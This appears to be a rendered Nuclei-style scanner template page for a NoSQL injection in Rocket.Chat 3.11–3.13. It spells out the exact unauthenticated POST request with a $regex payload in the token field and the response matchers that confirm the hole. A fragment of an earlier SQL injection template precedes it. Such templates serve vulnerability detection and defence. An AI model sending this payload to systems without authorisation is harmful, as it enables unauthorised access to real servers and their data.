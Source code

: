 ### Matchers

**Type - word**

- words
  1. sqli-test
  2. attribute_counts
  3. price_range
  4. term
- condition - and

**Type - word**

- part - header
- words
  1. application/json

**Type - status**

- status
  1. 200

---

# Rocket.Chat \<=3.13 - NoSQL Injection

## Description

- Rocket.Chat 3.11, 3.12 and 3.13 contains a NoSQL injection vulnerability which allows unauthenticated access to an API endpoint. An attacker can possibly obtain sensitive information from a database, modify data, and/or execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - rocketchat,nosqli,packetstorm,vulhub,hackerone,cve,cve2021

## Requests

### Step - 1

```
POST /api/v1/method.callAnon/getPasswordPolicy HTTP/1.1
Host: {{Hostname}}
Content-Type: application/json

{"message": "{\"msg\":\"method\", \"method\": \"getPasswordPolicy\", \"params\": [{\"token\": {\"$regex\": \"^{{randstr}}\"}}] }"}
```

### Matchers

**Type - word**

- part - body
- words
  1. [error-invalid-user]
  2. "success":true
- condition - and
